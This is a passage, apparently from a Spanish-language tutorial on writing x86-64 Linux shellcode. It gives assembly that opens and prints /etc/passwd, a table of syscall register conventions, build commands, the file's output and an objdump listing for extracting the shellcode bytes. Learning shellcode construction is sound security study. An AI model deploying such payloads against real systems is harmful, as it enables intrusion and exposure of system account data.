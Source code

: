 ```asm
add al, 60  ; $rax = sys_exit (60)
syscall

_push_filename:
call _readfile
path: db "/etc/passwd"

```
En los comentarios del código explica los valores que deben tener los registros para hacer las llamadas al sistema. En este caso sería:

|%rax		|Systemcall		|%rdi				|%rsi				|%rdx |
|-----------|---------------|-------------------|-------------------|-----|
|0			|sys_read	|unsigned int fd			|char *buf			|size_t count|		
|1			|sys_write	|unsigned int fd			|const char *buf		|size_t count|			
|2			|sys_open	|const char *filename	|int flags			|int mode|

Enlaces a la lista completa de las llamadas a sistema para [32bits](http://syscalls.kernelgrok.com/) y para [64bits](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Compilamos como en el ejemplo anterior:

```
nasm -f elf readfile.asm
ld -o readfile readfile.o

./readfile
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
....
```

Aquí se puede ver el shellcode a generar:

```
objdump -M intel -d readfile

readfile:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:       eb 3b                   jmp    4000bd <_push_filename>

0000000000400082 <_readfile>:
  400082:       5f                      pop    rdi
  400083:       48 31 c0                xor    rax,rax
  400086:       04 02                   add    al,0x2
  400088:       48 31 f6                xor    rsi,rsi
  40008b:       0f 05                   syscall
  40008d:       66 81 ec ff 0f          sub    sp,0xfff
  400092:       48 8d 34 24             lea    rsi,[rsp]
  400096:       48 89 c7                mov    rdi,rax
  400099:       48 31 d2                xor    rdx,rdx
  40009c:       66 ba ff 0f             mov    dx,0xfff
  4000a0:       48 31 c0                xor    rax,rax
  4000a3:       0f 05                   syscall
  4000a5:       48 31 ff                xor    rdi,rdi
  4000a8:       40 80 c7 01             add    dil,0x1
  4000ac:       48 89 c2                mov    rdx,rax
  4000af:       48 31 c0                xor    rax,rax
```